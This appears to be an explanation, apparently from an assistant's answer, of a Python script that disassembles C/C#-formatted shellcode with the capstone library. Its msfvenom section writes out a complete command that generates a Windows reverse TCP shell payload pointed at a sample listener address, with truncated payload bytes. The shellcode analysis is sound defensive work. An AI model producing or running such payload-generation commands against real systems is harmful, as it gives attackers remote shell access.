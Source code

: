 ### Script Breakdown:
1. **`decode_hex_string_to_bytes`**: Extracts the hex bytes from a C/C# style string and converts them into a raw byte array.
2. **`disassemble_shellcode`**: Uses the `capstone` library to disassemble the raw byte array into human-readable assembly instructions. The `arch` and `mode` parameters let you specify the architecture (e.g., `x86`, `x64`, `ARM`).
3. **Example**: The `hex_string` is the shellcode from your C or C# code, which is then disassembled.

### Requirements:
- Install the `capstone` library for Python:
  
  ```bash
  pip install capstone
  ```

### Example Output:

If the hex string represents a simple x86_64 shellcode, you'll see disassembled output like:

```text
0x1000:     xor     rdi, rdi
0x1002:     push    rdi
0x1003:     mov     rax, 0x68732f6e69622f
0x100d:     push    rax
...
```

### What Does `msfvenom` Do?

`msfvenom` can generate shellcode for various architectures and encode it in different formats. It can be output as raw binary, hex, or even as strings formatted for C/C#. For example:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f csharp
```

This would output the shellcode in C# format:

```csharp
byte[] buf = new byte[510] {
    0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50,
    ...
};
```

But to understand what those bytes do, you'd need to disassemble them like shown above using `capstone`.

### Answering the Goal

By using the above Python script, you can:
- Extract and disassemble any C/C# shellcode in hex form.
- See the human-readable assembly instructions to understand what the shellcode is doing. 
